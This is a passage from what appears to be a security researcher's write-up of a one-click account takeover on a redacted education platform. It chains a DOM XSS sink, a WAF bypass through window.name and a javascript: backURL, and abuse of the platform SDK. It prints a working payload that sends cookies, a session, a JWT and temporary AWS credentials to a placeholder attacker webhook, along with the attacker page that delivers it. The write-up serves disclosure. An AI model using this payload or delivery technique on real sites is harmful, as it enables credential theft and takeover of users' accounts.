


# :globe_with_meridians: Chaining a DOM XSS Sink, WAF Bypass, Cross-Origin Smuggling, and SDK Abuse into One Click Account Takeover

---

## 5. The Chain

The payload that runs inside the target origin once window.name is evaluated:



```
(async function() {
var h = 'https://[ATTACKER-WEBHOOK]';
var send = function(label, data) {
return fetch(h, {
method: 'POST', mode: 'no-cors',
headers: {'Content-Type': 'text/plain'},
body: JSON.stringify({ label: label, origin: document.domain, cookies: document.cookie, data: data })
});
};
await send('handshake', 'fired in ' + document.domain);
var s = [platform].core.iam.getAuthSession();
await send('session', s);
await send('jwt', await [platform].core.iam.getJWTToken());
await send('aws_a', await [platform].core.iam.getTempAWSCreds('[aws-domain-a]'));
await send('aws_b', await [platform].core.iam.getTempAWSCreds('[aws-domain-b]'));
}());
```

The attacker page that delivers it. The payload above is serialized into window.name as a plain string, then the victim is redirected. Since window.name persists across navigations, it arrives intact in the target origin where setTimeout evaluates it.

```
<!DOCTYPE html>
<html><body>
<script>
window.name = "(async function(){ /* payload above */ }())";
location.href =
"https://app.[target].com/[feature]/error/clock-sync"
+ "?backURL=javascript:top%5B%22setTimeout%22%5D(name)";
</script>
</body></html>
```

I ran this against my own test account. Nine POSTs hit the webhook in 8 seconds.




The session object came back with the full profile: first name, username, account namespace, account type, plus a session UUID. The JWT was 1488 characters, RS256, signed by the platform’s auth service, accepted as bearer credentials at every platform API for roughly 15 minutes. Its decoded payload included the victim’s legal name, email, home address, graduation date, and cohort year, all regulated education records, potentially belonging to a minor.

Then the AWS credentials. The first set resolved to a named user IAM role in one AWS account. The second set, confirmed by a different key ID prefix and a distinct account identifier in the token metadata, came from a completely separate AWS account. Both arrived from a single javascript: URL, via a button labeled *“Reload Page,”* on a page that looked entirely legitimate.

---
